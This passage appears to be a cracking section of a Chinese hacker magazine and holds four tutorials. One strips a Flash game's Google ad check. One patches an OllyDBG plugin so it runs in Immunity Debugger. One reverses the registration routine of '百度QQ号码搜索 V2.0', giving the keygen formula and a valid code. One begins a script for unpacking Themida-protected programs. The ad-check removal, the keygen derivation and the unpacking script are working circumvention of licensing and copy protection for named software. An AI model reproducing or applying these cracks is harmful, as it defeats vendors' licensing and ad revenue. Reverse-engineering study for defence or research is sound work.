        trace("onLoadStart");
    };
    _loc1.onLoadComplete = function ()
    {
        trace("onLoadComplete");
    };
    _loc1.onLoadInit = onLoadInit;
    _loc1.onLoadError = function ()
    {
        trace("onLoadError");
    };
```

```
var _loc2 = new MovieClipLoader();
_loc2.addListener(_loc1);
_loc2.loadClip("http://pagead2.googlesyndication.com/pagead/googleflashads/library.swf", _loc3);
// ...（后续为 ActionScript 代码）
function onLoadInit(clip) {
  trace("onLoadInit");
  trace("creating params object");
  var _loc1 = new Object();
  _loc1.productType = "2";
  var _loc2 = new Array();
  _loc1.publisherId = "ca-video-pub-2816128...";
  _loc1.channels = ["Shift_Puzzle-Preroll"];
  trace("fetching an ad");
  clip.requestAds(_loc1, onAdsRequestResult);
}
function onAdsRequestResult(callbackObj) {
  if (callbackObj.success) {
    adDone = true;
    var _loc3 = callbackObj.ads[0];
    var _loc1 = _loc3.getAdPlayerMovieClip();
    _loc1.setSize(320, 240);
    _loc1.onError = function() { adDone = true; };
    _loc1.onStateChange = function(oldState, newState) {
      if (newState == "completed") { adDone = true; }
    };
    _loc1.onAdSkip = function() { adDone = true; };
    _loc1.load();
    _loc1.play();
  }
}
adDone = false;
go(adLoc);
stopAllSounds();
```

```
Stage.scaleMode = "noScale";
Stage.showMenu = false;
setProperty("", _quality, "high");
onEnterFrame = function() {
  _root.bytesLoaded = _root.getBytesLoaded();
  _root.bytesTotal = _root.getBytesTotal();
  _root.percentLoaded = Math.round(100 * (_root.bytesLoaded / _root.bytesTotal));
  _root.percentLoadedText = _root.percentLoaded + "%";
  _root.bar.gotoAndStop(percentLoaded);
  if (_root.percentLoaded == 100 && adDone) {
    fgw._visible = true;
  }
};
fgw._visible = false;
stop();
urlStart = _url.indexOf("//") + 3;
urlEnd = _url.indexOf("/", urlStart);
domain = _url.substring(urlStart, urlEnd);
LastDot = domain.lastIndexOf(".") - 1;
domEnd = domain.lastIndexOf(".", LastDot) + 1;
domain = domain.substring(domEnd, domain.length);
```

从上面这段代码可以知道，Go 函数就是播放时的按钮 play，但要通过访问 Google 来验证是否播放。如果下载到本地，Flash 是没有访问网络权限的，当然也就无法播放了。

找到了原因，接下来就是如何破解了。因为这段代码是“Go”这个按钮的触发条件，我们直接删除代码，保留 Go 按钮就可以。删除掉“Go”函数，保存，生成 swf 文件，经测试完全正常，如图3所示。至此，破解成功。


图3

这种采取网络验证的方式保护版权的 Flash 我是第一次见到，国内几乎没有出现过，很新颖。大家在破解的时候也要灵活思维，不要认为破解总是最流行的技术，同样会有很多未知的情况发生，我们要仔细研究，不断摸索才可以。

#### 破解实例

### SECRET OF CRACK

栏目编辑 / icefire / icefire@hacker.com.cn

### 将 OllyDBG 插件改成 ImmDBG 插件

适合读者：破解爱好者  
前置知识：汇编语言

文／图 fly [CUG]


OllyDBG 是目前最伟大的三环软件调试器，而 Immunity Debugger 则是一款与 OllyDBG 有极大关系的软件调试器。

2007年8月9日，Immunity 公司的 Nico 在 Immunity 官方主页和论坛以及其他逆向论坛发布了 Immunity Debugger V1.0，正式宣告 OllyDBG 兄弟调试器的诞生。根据 Nico 等人言论猜测，Immunity Debugger 是 Immunity 公司购买了 OllyDBG 源码再次开发的商业软件。Immunity Debugger 相比于 OllyDBG V1.10，最大的亮点是 ImmDBG 集成了 Python 作为其内置脚本插件；另外 Immunity Debugger 也修正了 OllyDBG V1.10 的一些 bug，如 Armadillo V4.X 使用 Armadillo 导致 OllyDBG 崩溃、Themida V1.8.X 利用浮点指令导致 OllyDBG 崩溃等。

OllyDBG 的强大也体现在其众多插件的功能扩展支持上，但 Immunity Debugger 刚发布没多久，很多 OllyDBG 的经典插件还不支持 Immunity Debugger。由于 Immunity Debugger 其实是 OllyDBG 的复制后升级版，因此 OllyDBG V1.10 的很多插件只要简单修改即可直接提供给 Immunity Debugger V1.30 使用。当然，随着 Immunity Debugger 的不断升级，不排除以后插件不再兼容的情况。

根据插件有无源码的情况，我们可以将其分为：有源码的 OllyDBG 插件可以重新编译成为 ImmDBG 插件；无源码的 OllyDBG 插件可以手动修改成为 ImmDBG 插件。

本文就将简单介绍一下如何手动修改 OllyDBG 插件使其支持 Immunity Debugger。虽然 CleanupEx 插件有源码，不过为了演示另类 DLL 避开重定位表修改处理方法，还是以它作为演示目标了。

- 目标文件：CleanupEx.V1.12.108.by.Gigapede
- 插件用途：CleanupEx 插件用于清理 OllyDBG 调试时产生的 UDD 文件，不需要进入 UDD 目录手动删除。

#### 寻找修改点

- 1）用 LordPE 打开 OllyDBG.exe，点击“Directories”，查看其输出表，如图1所示。


图1

- 2）用 LordPE 打开 ImmunityDebugger.exe，点击“Directories”，查看其输出表，如图2所示。

大家可以看到，OllyDBG 和 ImmDBG 主程序的输出表基本就是 NameString 不同，函数名都一样。当然，这是目前的情况，随着 OllyDBG 和 ImmDBG 的各自升级发展，它们有可能会越来越有变化，从而分道扬镳。


图2

- 3）用 LordPE 打开 OllyDBG 插件 CleanupEx.dll，查看其输入表，如图3所示。


图3

- 4）用 LordPE 打开 OllyDBG 插件 CleanupEx.dll，查看其输出表，如图4所示。


图4

- 5）用 LordPE 打开 ImmDBG 自带插件 Cmdline.dll，查看其输出表，如图5所示。


图5

- 6）用 LordPE 打开 ImmDBG 自带插件 Cmdline.dll，查看其输入表，如图6所示。

图6

- 7）确定修改点。此处要注意，大家仔细观察 OllyDBG 插件 CleanupEx.dll 与 ImmDBG 自带插件 Cmdline.dll 的输出表和输入表信息，可以看到其实函数名基本相同，就是某些关键字有异，把 OllyDBG 插件的输出表和输入表的某些关键字修改即可。具体修改如下：
  - 一是修改插件的输出表函数关键字“_ODBG_”为“_IMMDBG_”，如将 _ODBG_Plugindata 修改为 _IMMDBG_Plugindata，全部输出表函数都要修改；
  - 二是修改插件的输入表 DllName 关键字，将 OLLYDBG.EXE 修改为 IMMUNITYDEBUGGER.EXE。

#### 开始修改

- 1）修改 OllyDBG 插件输入表的关键字。

用 CFF Explorer 打开 OllyDBG 插件 CleanupEx.dll，点击“Import Directory”，可以看到 DllName 的 OLLYDBG.EXE 的 RVA=000102E0，如图7所示。点击“Address Converter”，填入 RVA=000102E0，显示 File Offset=0000CEE0，如图8所示。很显然，要把 0x0000CEE0 处的 OLLYDBG.EXE 修改为 IMMUNITYDEBUGGER.EXE 的话，空间是不够的，不能占用后面其他 DllName 的空间，那么我们就另找空白地方吧。向下拉动滚动条，输入表下面 0x0000D460 处是空白空间，可以使用。我们写入“IMMUNITYDEBUGGER.EXE”字符串再计算一下 File Offset=0x0000D460 的 RVA 是多少，如图9所示。

可知 File Offset=0x0000D460 的 RVA=00010860。点击“Import Directory”，修改 DllName 之 OLLYDBG.EXE 的 RVA=00010860，如图10所示。至此，输入表关键字修改就完成了，将其另存为 CleanupEx1.dll。

#### 2）修改 OllyDBG 插件输出表的关键字

输出表中的 _ODBG_Plugindata 等字符中关键字 _ODBG_ 需要修改为 _IMMDBG_。___CPPdebugHook 不需要修改。由于 _IMMDBG_ 比 _ODBG_ 长 2 个字节，原来的空间不够，我们就使用其下空白处放替换关键字后的新输出表吧，如图11所示。此处要注意，记得修改新输出表的各 Name RVA，使其指向新的 Name。修改后另存为 CleanupEx.V1.12.108.for.ImmDBG.dll 文件。


之后再用 CFF Explorer 查看 CleanupEx.V1.12.108.for.ImmDBG.dll 修改后的输出表，看看是否修改成功，如图12所示。这样一来，插件的输出表和输入表就都修改好了。一般的 OllyDBG 插件这样修改后就能成为 ImmDBG 的插件了，如 Asm2Clipboard 插件、OdbgScript 插件、IsDebug 插件、OllyDump 插件和 ustrref 插件等。但是我们把刚才修改后的 CleanupEx.V1.12.108.for.ImmDBG.dll 放入 ImmDBG 插件目录，运行 ImmunityDebugger.exe，插件可以成功加载，但是使用删除 UDD 文件的功能却失效了。奇怪，为何此插件如此修改后还不行呢？


图12

#### 另类 DLL 避开重定位表修改处理

原来是 CleanupEx 插件需要在 OllyDBG.ini 配置文件中读取 Plugin 和 UDD 路径信息，而 CleanupEx 插件在代码中写定了“OllyDBG.ini”，所以还需要把这个修改为 ImmDBG 的配置文件名，也就是说把 CleanupEx 插件代码中写定的“OllyDBG.ini”修改为“ImmunityDebugger.ini”即可。

- 1）调试 OllyDBG 插件 CleanupEx.dll

使用 OllyDBG.Modify.By.fly[CUG].exe 载入带有 CleanupEx 插件的原版 OllyDBG.exe，下面我们开始调试吧。输入“BP GetPrivateProfileStringA”设置断点，中断后的代码如下。

```
0311131C  E8 03240000   call 03113724
03111321  83C4 08      add esp,8
03111324  8D4B 38      lea ecx,dword ptr ds:[ebx+38]
// [ebx+38]=0311B1BC, (ASCII "%sollydbg.ini")
// [ebx+38]这里就是CleanupEx插件代码中写定的“OllyDBG.ini”
// 在这里修改跳转到空白处，准备修改“OllyDBG.ini”
03111327  C640 01 00   mov byte ptr ds:[eax+1],0
0311132B  68 D8DA1103  push 311DAD8
03111330  51           push ecx
03111331  68 DCDB1103  push 311DBDC
03111336  E8 79370000  call 03114AB4
0311133B  83C4 0C      add esp,0C
0311133E  8D43 4E      lea eax,dword ptr ds:[ebx+4E]
03111341  8D53 46      lea edx,dword ptr ds:[ebx+46]
```

```
03111344  68 DCDB1103  push 311DBDC
03111349  68 04010000  push 104
0311134E  68 E0DC1103  push 311DCE0
03111353  68 D8DA1103  push 311DAD8
03111358  50           push eax
03111359  52           push edx
0311135A  E8 D9940000  call 0311A838
0311135F  53           push ebx
03111360  8D4B 5A      lea ecx,dword ptr ds:[ebx+5A]
03111363  68 E0DC1103  push 311DCE0
03111368  51           push ecx
03111369  68 E4DD1103  push 311DDE4
0311136E  E8 41370000  call 03114AB4 ; <jmp.&KERNEL32.GetPrivateProfileStringA>

// 得到ollydbg.ini中的Plugin目录
// /0012E110 0311135F /CALL 到 GetPrivateProfileStringA 来自 CleanupE.0311135A
// /0012E114 0311B1CA |Section = "History"
// /0012E118 0311B1D2 |Key = "Plugin path"
// /0012E11C 0311DAD8 |Default = "X:\Crack\DeBug\OllyDBG\OllyDBG V1.10\"
// /0012E120 0311DCE0 |ReturnBuffer = CleanupE.0311DCE0
// /0012E124 00000104 |BufSize = 104 (260.)
// /0012E128 0311DBDC \IniFileName = "X:\Crack\DeBug\OllyDBG\OllyDBG V1.10\ollydbg.ini"

03111373  83C4 10      add esp,10
03111376  8D43 64      lea eax,dword ptr ds:[ebx+64]
03111379  8D53 46      lea edx,dword ptr ds:[ebx+46]
0311137C  68 DCDB1103  push 311DBDC
03111381  68 04010000  push 104
03111386  68 E8DE1103  push 311DEE8
0311138B  68 D8DA1103  push 311DAD8
03111390  50           push eax
03111391  52           push edx
03111392  E8 A1940000  call 0311A838 ; <jmp.&KERNEL32.GetPrivateProfileStringA>

// 得到ollydbg.ini中的Udd目录
// /0012E110 03111397 /CALL 到 GetPrivateProfileStringA 来自 CleanupE.03111392
// /0012E114 0311B1CA |Section = "History"
// /0012E118 0311B1E8 |Key = "Udd path"
// /0012E11C 0311DAD8 |Default = "X:\Crack\DeBug\OllyDBG\OllyDBG V1.10\"
// /0012E120 0311DEE8 |ReturnBuffer = CleanupE.0311DEE8
// /0012E124 00000104 |BufSize = 104 (260.)
// /0012E128 0311DBDC \IniFileName = "X:\Crack\DeBug\OllyDBG\OllyDBG V1.10\ollydbg.ini"

03111397  68 E4DD1103  push 311DDE4
0311139C  6A 0A        push 0A
0311139E  8D4D F4      lea ecx,dword ptr ss:[ebp-C]
031113A1  51           push ecx
```

031113A2  8D43 7A      lea eax,dword ptr ds:[ebx+7A]  
031113A5  50           push eax  
031113A6  8D53 72      lea edx,dword ptr ds:[ebx+72]  
031113A9  52           push edx  
031113AA  8D4B 6D      lea ecx,dword ptr ds:[ebx+6D]  
031113AD  51           push ecx  
031113AE  E8 85940000  call 0311A838  
...  
GetPrivateProfileStringA ...  
Section = "flag"  
Key = "confirm"  
Default = "TRUE"  
...

// [ebx+38] 这里就是 CleanupEx 插件代码中写死的“OllyDBG.ini”  
// 修改为 jmp 0311A990，跳转到空白处准备修改

由于“%sImmunityDebugger.ini”比“OllyDBG.ini”长，因此无法在“OllyDBG.ini”原来所在处直接修改，需要改变代码流程到空白处再改。注意由于 DLL 很多时候会重定位，因此上面的 RVA 是指重定位后的地址，有可能与你跟随本文演示时并不是文中所示地址，但 RVA 和 File Offset 是不会变的。0311A990 处的修改代码如下。

0311A990  8D4B 38          lea ecx,dword ptr ds:[ebx+38]  
0311A993  81E9 4C080000    sub ecx,84C  
// ...  
0311A999  C640 0100        mov byte ptr ds:[eax+1],0  
0311A99D  E9 8969FFFF      jmp 0311132B

## 2) 修改 CleanupEx.V1.12.108.for.ImmDBG.dll

在 CleanupEx.V1.12.108.for.ImmDBG.dll 空白处 RVA=0000A970 写入“%sImmunityDebugger.ini”，如图13所示。

用 OllyDBG.Modify.By.fly[CUG].exe 载入 ImmDBG 插件目录下刚才写好“%sImmunityDebugger.ini”的 CleanupEx.V1.12.108.for.ImmDBG.dll 文件，开始修改。

03111324  8D4B 38   lea ecx,dword ptr ds:[ebx+38]  
// [ebx+38] = 0311B1BC, (ASCII "%sollydbg.ini")

保存修改，CleanupEx.V1.12.108.for.ImmDBG.dll 插件的功能就都有了。这样，我们就彻底把此 OllyDBG 插件成功修改为 ImmDBG 的插件了。

## 3) 另类 DLL 避开重定位表修改处理

看了上面的说明，大家或许会问，这些修改如何体现了另类 DLL 避开重定位表修改处理呢？  
一是修改 DLL 时避开需要重定位的地方，如在 03111324 处做跳转接口，而未动 0311132B 处代码，因为那里需要重定位。二是 0311A993 处采用“+/- 相对偏移”的方法把 ECX 修改为新地址，而没有直接“mov ecx,311A970”，从而避开重定位的处理。  
当然，还有其他方法也可以达到修改而不需要处理 DLL 重定位表，上面所述只是其中之一。

熟能生巧，诚如卖油翁所言：无他，但手熟尔。大家如果对软件安全感兴趣并想学习，那么建议多多动手练习，因为一分耕耘一分收获嘛。

前置知识：汇编语言  
关键词：破解、算法分析、汇编

## 百度QQ号码搜索算法分析

文／图 浓咖啡

最近一个朋友在学习、研究软件程序的逆向，就把这个百度QQ号码搜索 V2.0 发给了我，在业余时间做了下分析，个人觉得非常适合初学算法分析的读者。

百度QQ号码搜索 V2.0 是一款通过 BAIDU.COM 引擎快速搜集大量目标城市和行业的公司企业客户 QQ 号码的 QQ 号码搜索软件工具。

#### 信息搜集

试运行一下程序，了解必要的信息。点击注册按钮，输入任意注册码，点确定按钮，会弹出“软件注册号错误”的提示。

用 PEiD 查看，结果为“UPX 0.89.6-1.02/1.05-1.24 (Delphi) stub -> Markus & Laszlo”压缩壳，用 PEiD 本身插件或脱壳机就可以完成脱壳，手工脱壳用 ESP 定律、内存断点法、F8 单步跟踪等方法，都会很容易找到 OEP，这个程序的 OEP 在 00490C0C。脱壳后的程序由“Borland Delphi 6.0-7.0”编写，如图1所示。

图1

#### 程序分析

将脱壳后的程序载入 OD，入口地址如下。

00490C0C >$ 55 push ebp ; 入口地址  
00490C0D 8BEC mov ebp,esp  
00490C0F 83C4 F0 add esp,-10  
00490C12 53 push ebx  
00490C13 B8 94094900 mov eax,00490994  
00490C18 E8 7F5FFF7F call 00406B9C  
...  
00490C23 8B03 mov eax,dword ptr [ebx]  
00490C25 E8 F2A4FCFF call 0045B11C  
00490C2A 8B03 mov eax,dword ptr [ebx]  
00490C2C BA 840C4900 mov edx,00490C84  
; [百度QQ号码搜索] v2.0  
00490C31 E8 0AA1FCFF call 0045AD40  
...  
00490C76 5B pop ebx  
00490C77 E8 6839F7FF call 004045E4

用 OD 的“插件->超级字串查找->Find ASCII”，一些关键字符就会呈现在眼前。拖动滚动条找一下字符“软件注册号错误！”，很快就找到了，如图2所示。

图2

在这行代码上双击，就会来到反汇编窗口，如图3所示。在反汇编窗口中，向上找到这段代码的头部，也就是 0048FA38。在这行代码上，按一下 F2 键下好断点，一切准备工作就就绪了。下面的工作，是在 OD 里跟踪程序的过程中，用 Brain v n.X 时尚版来分析程序。

图3

F9 运行后，点击“注册”，就会在 F2 处断下，然后 F8 一直单步向下，经过 0048FA72 处的 call 后，就会弹出注册界面，输入注册假码 987654321，点击确定后，会断在 0048FA77 这行代码处。继续 F8 单步向下，代码如下。

0048FA38 / 55 push ebp ; f2  
0048FA39 | 8BEC mov ebp,esp  
0048FA3B | 83C4 D4 add esp,-2C  
0048FA3E | 53 push ebx  
0048FA3F | 56 push esi  
0048FA40 | 33C9 xor ecx,ecx  
0048FA42 | 894D D4 mov dword ptr [ebp-2C],ecx  
0048FA45 | 894D FC mov dword ptr [ebp-4],ecx  
0048FA48 | 8BD8 mov ebx,eax  
0048FA4A | 33C0 xor eax,eax  
0048FA4C | 55 push ebp  
0048FA4D | 68 AEFB4800 push 0048FBAE  
0048FA52 | 64:FF30 push dword ptr fs:[eax]  
0048FA55 | 64:8920 mov dword ptr fs:[eax],esp  
0048FA58 | 8D45 FC lea eax,dword ptr [ebp-4]  
0048FA5B | BA C4FB4800 mov edx,0048FBC4  
0048FA60 | E8 8B4DF7FF call 004047F0  
0048FA65 | 8D4D FC lea ecx,dword ptr [ebp-4]  
0048FA68 | BA D8FB4800 mov edx,0048FBD8

; 请输入软件注册码  
0048FA6D | B8 FCFB4800 mov eax,0048FBFC  
; 登记注册  
0048FA72 | E8 2D4CFAFF call 004346A4  
; F8，会弹出注册界面  
0048FA77 | 3C 01 cmp al,1  
0048FA79 | 0F85 11010000 jnz 0048FB90  
0048FA7F | 8D55 D4 lea edx,dword ptr [ebp-2C]  
0048FA82 | 8B45 FC mov eax,dword ptr [ebp-4] ; (ASCII "987654321")  
0048FA85 | E8 5290F7FF call 00408ADC  
0048FA8A | 8B45 D4 mov eax,dword ptr [ebp-2C] ; (ASCII "987654321")  
0048FA8D | E8 1E93F7FF call 00408DB0  
0048FA92 | 8945 F0 mov dword ptr [ebp-10],eax  
; 3ADE68B1(16)=987654321  
0048FA95 | 8955 F4 mov dword ptr [ebp-C],edx  
0048FA98 | 6A 00 push 0  
0048FA9A | 6A 4F push 4F  
0048FA9C | 8B45 F0 mov eax,dword ptr [ebp-10]  
; 3ADE68B1(16)=987654321  
0048FA9F | 8B55 F4 mov edx,dword ptr [ebp-C]  
0048FAA2 | E8 A95CF7FF call 00405750  
; 对输入的假码进行处理  
0048FAA7 | 8945 F0 mov dword ptr [ebp-10],eax  
; 处理后的结果 00BEC3C1  
0048FAAA | 8955 F4 mov dword ptr [ebp-C],edx  
0048FAAD | 8B45 F0 mov eax,dword ptr [ebp-10]  
; 处理后的结果 00BEC3C1  
0048FAB0 | 8B55 F4 mov edx,dword ptr [ebp-C]  
0048FAB3 | 2D E3C30B00 sub eax,0BC3E3  
; 处理后的结果 -0BC3E3  
0048FAB8 | 83DA 00 sbb edx,0  
0048FABB | 8945 F0 mov dword ptr [ebp-10],eax  
; 计算后的结果 00B2FFDE  
0048FABE | 8955 F4 mov dword ptr [ebp-C],edx  
0048FAC1 | 8D45 D8 lea eax,dword ptr [ebp-28]  
0048FAC4 | E8 6FF0FFFF call 0048EB38  
; CPUID  
0048FAC9 | 8B45 D8 mov eax,dword ptr [ebp-28]  
; 堆栈 ss:[0012FBD0]=00000F12  
0048FACC | 99 cdq  
0048FACD | 8945 E8 mov dword ptr [ebp-18],eax  
0048FAD0 | 8955 EC mov dword ptr [ebp-14],edx  
0048FAD3 | 8B45 F0 mov eax,dword ptr [ebp-10] ; 计算后的结果 00B2FFDE  
0048FAD6 | 8B55 F4 mov edx,dword ptr [ebp-C]  
0048FAD9 | 3B55 EC cmp edx,dword ptr ...

### 破解专版 SECRET OF CRACK

0048FADC | 0F85 99000000 jnz 0048FB7B  
0048FAE2 | 3B45 E8 cmp eax,dword ptr [ebp-18]  
0048FAE5 | 0F85 90000000 jnz 0048FB7B  
0048FAEB | B2 01 mov dl,1  
0048FAED | A1 98FF4500 mov eax,dword ptr [45FF98]  
0048FAF2 | E8 A105FDFF call 00460098  
0048FAF7 | 8BF0 mov esi,eax  
0048FAF9 | BA 02000080 mov edx,80000002  
0048FAFE | 8BC6 mov eax,esi  
0048FB00 | E8 3306FDFF call 00460138  
0048FB05 | B1 01 mov cl,1  
0048FB07 | BA 10FC4800 mov edx,0048FC10  
0048FB0C | 8BC6 mov eax,esi  
0048FB0E | E8 8906FDFF call 0046019C  
0048FB13 | 84C0 test al,al  
0048FB15 | 74 0E je short 0048FB25  
0048FB17 | 33C9 xor ecx,ecx  
0048FB19 | BA 5CFC4800 mov edx,0048FC5C  
0048FB1E | 8BC6 mov eax,esi  
0048FB20 | E8 FB07FDFF call 00460310  
0048FB25 | 8BC6 mov eax,esi  
0048FB27 | E8 DC05FDFF call 00460108  
0048FB2C | 8BC6 mov eax,esi  
0048FB2E | E8 353EF7FF call 00403968  
0048FB33 | 6A 00 push 0  
0048FB35 | 66:8B0D 64FCC4...

0048FB72 | C740 0C 08000000 mov dword ptr [eax+C],8  
0048FB79 | EB 15 jmp short 0048FB90  
0048FB7B | 6A 00 push 0  
0048FB7D | 66:8B0D 64FCC4.. mov cx,word ptr [...]  
0048FB84 | B2 01 mov dl,1  
0048FB86 | B8 A0FC4800 mov eax,0048FCA0  
0048FB8B | E8 F849FAFF call 00434588  
0048FB90 | 33C0 xor eax,eax  
0048FB92 | 5A pop edx  
0048FB93 | 59 pop ecx  
0048FB94 | 59 pop ecx  
0048FB95 | 64:8910 mov dword ptr fs:[eax],edx  
0048FB98 | 68 B5FB4800 push 0048FBB5  
0048FB9D | 8D45 D4 lea eax,dword ptr [ebp-2C]  
0048FBA0 | E8 B34BF7FF call 00404758  
0048FBA5 | 8D45 FC lea eax,dword ptr [ebp-4]  
0048FBA8 | E8 AB4BF7FF call 00404758  
0048FBAD | C3 retn

从上面这段代码可以看出，首先对输入的假码进行16进制转换，987654321 的16进制是 3ADE68B1；在 0048FAE2 处有两个关键值（00BEC3C1 和 F12）的比较，这两个值若相等，就会注册成功。此时大家要细心一些了，要使用好自己的 Brain v n.X 时尚版（大脑）。重新开始，输入其他假码，然后看这里的关键值是否变化。其中的 F12 值一直没有变化，而另外一个是随着不同的注册码而变化的。那么，这两个关键值又是怎样得来的？通过跟踪观察，这两个关键值分别在 0048FABB 和 0048FAC9 这两行代码处出现了传递，先看下关键值里注册码变化运算是如何得来的，跟进 0048FAA2 处的 CALL，得到如下代码。

0048FA98 | 6A 00 push 0  
0048FA9A | 6A 4F push 4F  
0048FA9C | 8B45 F0 mov eax,dword ptr [ebp-10] ; 3ADE68B1(16)=987654321  
0048FA9F | 8B55 F4 mov edx,dword ptr [ebp-C]  
0048FAA2 | E8 A95CF7FF call 00405750  
004057C2 | F7F3 div ebx ; ebx=4F  
004057C4 | 31D2 xor edx,edx  
004057C6 | EB F3 jmp short 004057BB  
004057C8 | C3 retn

在跟踪到这段代码时，你就会看到“div ebx”，而 ebx=4F，就是用“3ADE68B1 div 4F = 00BEC3C1 r 00000022”（拿出计算器来自己计算一下），取整数部分，放到寄存器 EAX 中，余数就不管了。0048FAA7~0048FABB 这中间的代码就更直观了，00BEC3C1（固定值）-0BC3E3=B2FFDE，这个结果就是关键值之一的来由。我们再看另一个关键值的由来，F7 跟进 0048FAC4 处的 CALL，代码如下。

0048EB38  /$ 53          push ebx  
0048EB39  |. 57          push edi  
0048EB3A  |. 89C7        mov edi,eax  
0048EB3C  |. B8 01000000 mov eax,1  
0048EB41  |. 0FA2        cpuid  
0048EB43  |. AB          stos dword ptr es:[edi]  
CPUID 信息 eax=00000F12;  
0048EB44  |. 89D8        mov eax,ebx  
0048EB46  |. AB          stos dword ptr es:[edi]  
0048EB47  |. 89C8        mov eax,ecx  
0048EB49  |. AB          stos dword ptr es:[edi]  
0048EB4A  |. 89D0        mov eax,edx  
0048EB4C  |. AB          stos dword ptr es:[edi]  
CPUID 信息 eax=3FEBFBFF  
0048EB4D  |. 5F          pop edi  
0048EB4E  |. 5B          pop ebx  
0048EB4F  \. C3          retn

在这段代码中，可以看到另一个关键值就是取 CPUID 的第2段信息 00000F12。两个关键值比较的结果相等，就会注册成功，反之失败。最后软件会将正确的注册信息写入注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\software\baiduqqscanV20 中。

我们总结一下算法：（16进制计算）输入码除 4F，取整数部分，减去 BC3E3 的结果，要与本机 CPUID 第2段信息相等。

我的 CPUID 第2段信息是 00000F12，那么正确的注册码就是 61217179，计算公式为 (F12+BC3E3)*4F=0BD2F5*4F=3A6199B（61217179），注册成功的结果如图4所示。

好了，整个过程到这里就结束了，所有程序我已打包，并附有注册机原码，供大家练习使用。若有不明白之处，欢迎大家到黑防论坛与我交流。

前置知识：汇编语言  
关键词：破解、加密壳、Themida脚本

### Themida 版本编写详解

文／图 fyxang[CUG]

Themida 目前是比较强的加密壳，本文将详细地演示怎么编写一个 Themida 脚本，脚本插件版本为 ODbgScript v1.65.2 最新中文版，使用 Themida 1.9.5 版本为样本，下载地址为 http://www.unpack.cn/viewthread.php?tid=18423 。

脱 Themida 的首要条件是有能过 Themida anti 的 OllyDBG 调试器，这是很多人无法完成脱壳的关键之一。目前推荐使用下列组合：OllyDBG 使用 fly 修改版 theoldbg，设置忽略全部异常，插件为 PhantOm v1.2 版，按图1所示进行设置。

#### 准备阶段

- 1) 首要条件
- 2) 前人经验  
  每个强壳都经历了很长的成长过程，在这个过程中也不断地有前人在研究这个软件，所以前## 脚本编写过程


人的经验是非常好的入门教程。Themida 壳的脚本目前就有 okdodo 编写的 Themida 1.1x-1.8x 系列脚本等（下载地址 http://www.unpack.cn/viewthread.php?tid=11263）。在后面的编写脚本过程中，我就是通过这个脚本了解了进入 IAT 表解码的定位，所以学习别人的经验非常重要。

##### 脚本语言参考

脚本的编写要符合脚本插件语言的规范，这个规范就是随脚本插件一起发布的 OllyScript 中文说明，最新的是 nhhuqiong 维护的 1.65 版。

##### 脚本的初始化

脚本的初始化包括变量的声明、脚本版本检查、基础数据的获得、调试器环境设置等。下面是 Themida 脚本初始化过程的代码。

```text
// 清除调试器中保留的硬件和内存中断，防止对脚本的干扰，注意脚本不能清除软件断点
Bphwcall
Bpmc
// 比较脚本插件版本，很重要，低版本的插件可能不支持高版本的指令
cmp $VERSION, "1.65"
jb odbgvererr // 脚本的后面会提示这个错误
// 变量的声明，有些变量要求全局的，所以要在前面声明

data:
var cbase
var csize
var dllimg
var dllsize
var loadlib
var mem
var getprocadd
var getprocadd_2
var tmp
var temp
var tmppn
var tmpdir
var tmpefn
var vbflag
// 基础数据，这些数据在脚本中要用到
mi eip, CODEBASE // 获得目标程序的代码段地址
mov cbase, $RESULT
bphws cbase, "w" // 注意这里对程序代码段下个写入硬件断点，很有作用
gmemi eip, MEMORYBASE // 壳段的基地址
mov dllimg, $RESULT
log dllimg
gmemi eip, MEMORYSIZE // 壳段的长度
mov dllsize, $RESULT
log dllsize
gpi PROCESSNAME // 目标程序名称
mov tmppn, $RESULT
gpi CURRENTDIR // 目标程序路径
mov tmpdir, $RESULT
gpi EXEFILENAME // 包含路径的程序名
mov tmpefn, $RESULT
gmi eip, MODULEBASE // 模块基地址
mov modbase, $RESULT
sub modbase, 10000

// 如果需要补区段修复，请使用下面的代码把低于壳段的地址全部申请掉，防止 Themida 使用低地址内存。不需要的可以注释掉，这段代码来自 okdodo
/*
allocloop0:
alloc 1000
mov mem, $RESULT
cmp mem, modbase
log mem
jne allocloop0
*/
```

##### 脱壳过程脚本

Themida 壳初始化的时候会申请很多的临时地址空间，从这点可以肯定会使用函数 VirtualAlloc。我们现在先对这个函数下断点“bp VirtualAlloc+5”。为了防止被壳检查到断点，我们在加 5 的地方下断点。Ctrl+F9 运行，程序中断在如图 2 所示的位置，我们运行到如图 3 所示的壳的代码中，从返回值 EAX 中可以看到申请了地址为 00AD0000 的空间，到内存中看看，如图 4 所示，灰色的部分就是刚申请的。


图3


图4

怎么回事呢？我们改在 VirtualAlloc 函数的入口下硬件执行断点。运行程序，发现壳虽然申请了很多的空间，但是中断的次数不对，是不是不使用这个函数了呢？此处运行时要记住中断在 VirtualAlloc 地址的次数。当被中断第四次的时候，我们到内存模块空间查看是否只申请了 4 个临时空间，如图 5 所示。从中可以发现前三次是对的，从第四次开始就不对了，这说明是通过别的函数申请了空间。有这个函数吗？第四次我们到 VirtualAllocEx 中下断看看，还是没有有效中断。既然如此，我们就先到 Themida 刚开始申请的三个段中看看，双击第一个段地址 00AD0000，发现明显是个 PE 文件，相当于 DLL 且比较大，长度是 00118000（1146880），这可能就是 Themida 壳的一个段。用 LordPE 将其 dump 为 DLL 文件，再用 LordPE 查看其输出表，如图 6 所示。


图6

看见了吧？这是个 DLL，表的名称是 kernel32.dll，这就是 Themida 把 kernel32.dll 重载到内存中的结果。后面使用 kernel32.dll 中的函数会被转向到这个段中，所以后面申请内存，我们原来的中断地址就不起作用了。我们再找找 VirtualAlloc 函数，如图 7 所示，果然存在，而且是 kernel32.dll 的重载。经过查找，发现这个 DLL 中的函数就在偏移量地址中。由此我们可以写出下列脚本（脚本指令含义只给一次注释）。


图7


图5

```text
gpa "VirtualAlloc", "kernel32.dll"
// gpa: 获取函数地址，返回值在 $RESULT 中
mov tmpbp, $RESULT
cmp tmpbp, 0
je stop

// 为了脚本安全运行，一般多使用硬件断点，下面的代码意思是在 VirtualAlloc 入口处下“执行”硬件断点
bphws tmpbp, "x"
esto
rtu // 运行到函数结尾 ret 处，这是函数功能完成。
mov temp, eax // 一般函数返回值保存在 EAX 中
esto // Shift+F9
esto
bphwc tmpbp // 及时清除上面的硬件断点，重定位 VirtualAlloc，获取 kernel32 模块的基地址，因为 VirtualAlloc 是 kernel32 中的函数
gmi tmpbp, MODULEBASE
sub tmpbp, $RESULT
sub tmpbp, 0c00
add tmpbp, temp
bphws tmpbp, "x"
esto
```

